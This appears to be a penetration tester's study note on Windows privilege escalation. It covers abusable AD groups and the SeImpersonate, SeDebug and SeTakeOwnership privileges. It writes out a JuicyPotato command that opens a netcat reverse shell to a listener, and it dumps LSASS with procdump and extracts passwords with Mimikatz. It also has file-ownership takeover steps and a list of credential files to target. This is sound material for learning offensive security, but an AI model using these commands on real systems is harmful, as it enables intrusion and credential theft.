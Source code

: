 
### Authority Levels:
1. NT Authority\ System 
2. administrator 
3. Administrators 
4. non-privileged domain user part of admin group.
5. Domain user part of a Administrator group.

## Authorisation Process 
Every Security Identifier is identified by a unique Security Identifier ([SID)](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-identifiers)

Users access tokens are compared against [Access Control Entries (ACE)](https://learn.microsoft.com/en-us/windows/win32/secauthz/access-control-entries)
 ![[Windows Authorisation Process.png]]
 https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-principals

## Group/ User Rights and Privileges 
[Master  List](https://ss64.com/nt/syntax-security_groups.html)
### Groups

##### Default Administrators 
	Domain Admins and Enterprise Admins are "Super Groups"
##### Server Operators 
	Members can modify services, access SMB shares and backup files
##### Backup Operators
	Members are allowed to log onto DCs locally and should be considered Domain Admins. They can make shadow copies of the SAM/NTDS database, read the registry remotely, and access the file system on the DC via SMB. This group is sometimes added to the local Backup Operators group on non-DCs.
##### Print Operators
	Members can logon to DCs locally and "trick" windows into loading a malicious driver. 
##### Hyper-V Administrators
	If a Virtual DCs is present these should be considered domain admins
##### Account Operators
	Modify non-protected accounts and groups in the domain
#### Remote Desktop Users
	Not given any useful permission by default but often given rights such as: "Alow Login through RDP" and can move laterally through RDP
##### Remote Management Users 
	Can log on to DCs with PSremoting
#### Group Policy Creator Owners
	can create new GPOs but would never be delegated permissions to link GPOs to a container like a DC
#### Schema Admins
	Members can modify the Active Directory schema structure and backdoor any-to-be created Group/GPO by adding a compromised account to the default object ACL.
#### DNS Admins
	Can load DLL in a DC. Cannot restart the DNS server. Load a malicious DLL and wait for reboot as a persistence mechanism.  
	May often result in a crash. better to exploit a WDAP record. 
	https://cube0x0.github.io/Pocing-Beyond-DA/
## Users
https://learn.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/user-rights-assignment
List user assigned rights
```shell-session
whoami /priv
```
#### Standard rights 
Administrator	```
	SeIncreaseQuotaPrivilege
	SeSecurityPrivilege
	SeTakeOwnershipPrivilege
	SeLoadDriverPrivilege
	SeSystemProfilePrivilege
	SeSystemtimePrivilege
	SeProfileSingleProcessPrivilege
	SeIncreaseBasePriorityPrivilege
	SeCreatePagefilePrivilege
	SeBackupPrivilege
	SeRestorePrivilege
	SeShutdownPrivilege 
	SeDebugPrivilege    
	SeSystemEnvironmentPrivilege
	SeChangeNotifyPrivilege
	SeRemoteShutdownPrivilege 
	SeUndockPrivilege
	SeManageVolumePrivilege
	SeImpersonatePrivilege
	SeCreateGlobalPrivilege
	SeIncreaseWorkingSetPrivilege
	SeTimeZonePrivilege
	SeCreateSymbolicLinkPrivilege
	SeDelegateSessionUserImpersonatePrivilege
			```
User  ```
	SeChangeNotifyPrivilege
	SeIncreaseWorkingSetPrivilege
			```
Backup Operator ```
	SeShutdownPrivilege 
	SeChangeNotifiyPrivilege
	SeIncreaseWorkingSePrivilege
			```


## SeImpersonate and SeAssignPrimaryToken
SeImpersonate privilege is needed to utilise tokens. 
	[Only given to administrative accounts.](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithtokenw)
Can call other process token to escalate privileges to system. 
	Make a call to the WinLogon process to get a system token.
	[Trick a process into running as System to connect to their process.](https://learn.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/impersonate-a-client-after-authentication)
	
#### Use JuicyPotato to escalate privileges.
```shell-session
xp_cmdshell <dir to file>JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe <listner ip> <listen port> -e cmd.exe" -t * 

sudo nc -lnvp 8443 
```
On Windows Server 2019 and Windows 10 1809+ you need to use PrintSpoofer / RoguePotato exploits instead.

### SeDebugPrivilige
Run an application or service with troubleshooting with this privilege.
By default only administrators are assigned this.
Use [procdump](https://learn.microsoft.com/en-us/sysinternals/downloads/procdump) to leverage the privilege and dump process memory. *(LSASS WORKS WELL)*

```shell-session 
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

This can then be loaded into Mimikatz

```shell-session
mimikatz.exe
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords
```

#### Manual dump of LSASS memory from task manager.
![[Dump File.png]] 
[Remote Code Execution](https://decoder.cloud/2018/02/02/getting-system/)
[Script to use:](https://raw.githubusercontent.com/decoder-it/psgetsystem/master/psgetsys.ps1)
Run with this syntax :

```powershell
.\psgetsys.ps1 [MyProcess]::CreateProcessFromParent(<system_pid>,"c:\windows\system32\cmd.exe" <or any cmd>,"")
```

get the system pid with `tasklist`
![[psgetsys script.png]]

### SeTakeOwnershipPrivilige
Allows a user to take ownership of any "securable object", active Directory objects, NTFS files/folders, printers, registry keys, services and processes.
Assigns WRITE_OWNER rights
Most commonly service user accounts. 
![[SeTakeOwnership Privilige.png]]
- `Computer Configuration` ⇾ `Windows Settings` ⇾ `Security Settings` ⇾ `Local Policies` ⇾ `User Rights Assignment`
#### [How to leverage:](https://medium.com/@markmotig/enable-all-token-privileges-a7d21b1a4a77)
##### [Script to use:](https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1)
check you have privilege
```shell-session
whoami /priv
```
Import Script 
```powershell
Import-Module .\Enable-Privilege.ps1

.\EnableAllTokenPrivs.ps1
```
Target an interesting file you have found:
```powershell
Get-ChildItem -Path '<file to target>' | Select Fullname,LastWriteTime,Attributes,@{Name="Owner";Expression={ (Get-Acl $_.FullName).Owner }}
```
Check File Ownership:
```shell-session
cmd /c dir /q '<path to folder>'
```
Take Ownership of file:
```shell-session
takeown /f '<path to file>
```
Confirming Ownership Changed:
```powershell
Get-ChildItem -Path <path to file>' | select name,directory, @{Name="Owner";Expression={(Get-ACL $_.Fullname).Owner}}
```
ACL may need to be modified:
```shell-session
icacls '<path to file>' /grant <username>:F
```
Interesting Files:
	```
```bash
c:\inetpub\wwwwroot\web.config
%WINDIR%\repair\sam
%WINDIR%\repair\system
%WINDIR%\system32\config\SecEvent.Evt
%WINDIR%\system32\config\default.sav
%WINDIR%\system32\config\security.sav
%WINDIR%\system32\config\software.sav
%WINDIR%\system32\config\system.sav
passwords.*
pass.*
creds.*
*.kdbx
```

